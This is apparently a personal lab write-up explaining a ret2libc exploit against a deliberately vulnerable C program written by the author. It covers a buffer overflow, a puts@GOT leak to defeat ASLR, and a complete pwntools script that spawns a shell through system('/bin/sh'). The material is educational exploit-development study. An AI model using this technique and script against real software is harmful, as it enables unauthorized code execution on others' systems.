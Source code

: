 Rahn Stavar
# Source code
The source code for the binary I have created for this exercise is:
```c
#include <stdio.h>
__asm__("pop %rdi; ret");

int vuln() {
        char vuln_buf[20];
        puts("Enter a message:");
        fgets(vuln_buf, 250, stdin);
        return 0;
}

int main(int argc, char** argv) {
        vuln();
        return 0;
}
```
I have hardcoded a `pop rdi; ret` ROP gadget into the code to ensure I have a way to pass stack values as function parameters, since I am compiling and running this on `x86_64` architecture, which uses registers for function parameters. This is only needed since this example program is so small and is not likely to contain any useful gadgets. Real programs are much larger and would be highly likely to contain a useful parameter passing gadget, or multiple gadgets that could be chained to achieve the same thing.
# Exploit
I have compiled the binary with the `NX` bit set, and no `PIE`. The address randomisation caused by ASLR will be applicable when I try to call a function in LIBC, as the base address of the library will be randomised on each execution.
![[Pasted image 20231219222420.png]]
As shown in the screenshot, the address of LIBC changes each time, due to ASLR.
My goal will be to call `system("/bin/sh")` to open a new shell, and to do this I will need to leak the address of a pointer to some known function in LIBC, and then calculate the offset to the LIBC base address, and then finally the `system` function and `/bin/sh` string offsets from the base address.
The `puts` function is from LIBC and is used in the target binary, so is a good candidate to leak the address of. There is also a buffer overflow vulnerability that I can use to deliver the exploit.
Using the pattern functionality of `gdb-peda`, I can find the offset from the vulnerable buffer to the address referenced by the `$rsp` register:
![[Pasted image 20231219222715.png]]
As shown in the screenshot, on the second-last line, the offset is 40 bytes.
Next, I need a way to leak the address of `puts` from the Global Offset Table at runtime, and avoid crashing the program so that the address of LIBC doesn't get randomised again.
My plan is to use the buffer overflow to set the value that the `$rsp` register points to, to the address of the `puts` "thunk" function in the `PLT` section. This function is a wrapper for a jump to the real `puts` function, and is used by the binary to give `puts` a static address which can be used throughout the code. It is essentially a `puts`-caller function with a static address. I will set the address pointed to by the `$rsp` register to this `puts@PLT` address, to cause execution of it when `vuln()` returns. `puts` is a function which prints the given parameter to standard output, so if I pass it the address in the `GOT` which will store the actual address of `puts` from LIBC, it will print this for me, thereby leaking the pointer to `puts` in LIBC. Then, I want to avoid crashing the program, so I need to set the return address again to `main`.
Since I am working with `x86_64`, I will also need to use the `pop rdi; ret` gadget to pass the function parameter to `puts@PLT`.
So, gathering these addresses for my reference:
Address of `puts@PLT`: 0x401050
![[Pasted image 20231219222841.png]]
Address of `puts@GOT`: 0x404018
![[Pasted image 20231219222913.png]]
Address of `main`: 0x401192
![[Pasted image 20231219222930.png]]
Address of `pop rdi; ret` gadget: 0x401156
![[Pasted image 20231219223007.png]]
For this pointer leaking phase of the exploit, the payload will look as follows:
```
40 bytes of junk + addr of pop rdi gadget + addr of puts@GOT + addr of puts@PLT + addr of main
```
```bash
python2 -c 'print \
"\x11"*40 + \
"\x56\x11\x40" + "\x00"*5 + \
"\x18\x40\x40" + "\x00"*5 + \
"\x50\x10\x40" + "\x00"*5 + \
"\x92\x11\x40" + "\x00"*5 \
' > payload.txt
```
Running the program with this payload, I can see some non-printable characters are displayed and the `main` function has started again, which is a good indication that I have been successful in leaking a pointer:
![[Pasted image 20231219225750.png]]
This a good, but I need to be able to capture these bytes and use them in the second payload, as well as avoid the segmentation fault at the end.
Turning this into a `pwntools` script so I can save and use the output programmatically:
```python
from pwn import *
context.log_level = 'DEBUG'
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

pop_rdi_addr = 0x401156
puts_got_addr = 0x404018
puts_plt_addr = 0x401050
main_addr = 0x401192

payload = b"A"*40
payload += p64(pop_rdi_addr)
payload += p64(puts_got_addr)
payload += p64(puts_plt_addr)
payload += p64(main_addr)

p = process("./prog")

p.recvuntil(b"Enter a message:\n")
p.sendline(payload)

leaked_puts_addr = u64(p.recvline().strip() + b"\x00"*2)  # parse the printed address
print("Leaked puts address:" + hex(leaked_puts_addr))
```
Running this, I can see I have captured the leaked address of `puts` in LIBC and printed it to the console:
![[Pasted image 20231219230259.png]]
Now that I have the address of a function in LIBC, I can work out the LIBC base address by subtracting the `puts` offset for my version of LIBC from the recovered address. I will use `pwntools` to calculate the offset of `puts` for me, as I have supplied it with the path to the LIBC library earlier:
```python
libc_base_addr = leaked_puts_addr - libc.symbols["puts"]
print("Libc base address:" + hex(libc_base_addr))
```
Adding this to my script, I can now see the calculated base address printed to the console.
Using this base address, I then calculate the address of the `system()` function by adding the offset of the function to the base address:
```python
libc_system_addr = libc_base_addr + libc.symbols["system"]
print("Libc system address:" + hex(libc_system_addr))

libc_bin_sh_addr = libc_base_addr + list(libc.search(b"/bin/sh"))[0]
print("Libc /bin/sh string address:" + hex(libc_bin_sh_addr))
```
Similarly, I have also located an occurrence of the string `/bin/sh` within LIBC and calculated its address. This string will be used as the parameter I pass to `system()`.
Lastly, now that I have the addresses I need, the final thing to do is to set up the stack to call the system function with the shell string as its parameter. I will again make use of the buffer overflow vulnerability to modify the stack. The payload will look like:
```
40 bytes of junk + addr of pop rdi gadget + addr of /bin/sh string + addr of system@LIBC
```
In the `pwntools` script, this will be implemented as:
```python
payload = b"A"*40
payload += p64(pop_rdi_addr)
payload += p64(libc_bin_sh_addr)
payload += p64(ret_gadget_addr) # padding the stack with a 'ret' gadget to realign the stack to 16-byte alignment before calling system()
payload += p64(libc_system_addr)

p.recvuntil(b"Enter a message:\n")
p.sendline(payload)
p.interactive()
```
Note that in the script I have also included a `ret` gadget on the stack, right before calling `system()`. 
![[Pasted image 20231219223459.png]]
This is an artefact of the `movaps` `x86_64` assembly instruction, which is used in the `system` code. I found through online research that this instruction will cause a segmentation fault if the stack is not aligned to a 16 byte alignment, and so to realign my stack, I have included another 8 bytes which is the address of a `ret` instruction, which will essentially do nothing, then return to `system()`.

Putting all of these steps together into a fully function exploit, the final python `pwntools` script looks like:
```python
"""
ASLR Bypass Ret2Libc Exploit Script for "prog" example vulnerable program
Rahn Stavar
"""
from pwn import *
context.log_level = 'DEBUG'
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

pop_rdi_addr = 0x401156
puts_got_addr = 0x404018
puts_plt_addr = 0x401050
main_addr = 0x401192
ret_gadget_addr = 0x40101a

payload = b"A"*40
payload += p64(pop_rdi_addr)
payload += p64(puts_got_addr)
payload += p64(puts_plt_addr)
payload += p64(main_addr)

p = process("./prog")

p.recvuntil(b"Enter a message:\n")
p.sendline(payload)

leaked_puts_addr = u64(p.recvline().strip() + b"\x00"*2)
print("Leaked puts address:" + hex(leaked_puts_addr))

libc_base_addr = leaked_puts_addr - libc.symbols["puts"]
print("Libc base address:" + hex(libc_base_addr))

libc_system_addr = libc_base_addr + libc.symbols["system"]
print("Libc system address:" + hex(libc_system_addr))
libc_bin_sh_addr = libc_base_addr + list(libc.search(b"/bin/sh"))[0]
print("Libc /bin/sh string address:" + hex(libc_bin_sh_addr))

payload = b"A"*40
payload += p64(pop_rdi_addr)
payload += p64(libc_bin_sh_addr)
payload += p64(ret_gadget_addr) # padding the stack with a 'ret' gadget to realign the stack to 16-byte alignment before calling system()
payload += p64(libc_system_addr)

p.recvuntil(b"Enter a message:\n")
p.sendline(payload)
p.interactive()
```
Running this script shows me a variety of helpful debugging output, then finally drops me into a new shell, which shows that the exploit has succeeded:
![[Pasted image 20231219225424.png]]
To summarise, by gaining this shell, I have successfully bypassed by DEP and ASLR. This was possible due to a buffer overflow vulnerability which allowed me to leak a pointer to a function within LIBC. I then calculated the base address of LIBC, which gave me enough information to call any other functions in LIBC using the same buffer overflow vulnerability. Finally, I called `system()` with the `/bin/sh` string as a parameter, which also came from the LIBC library. 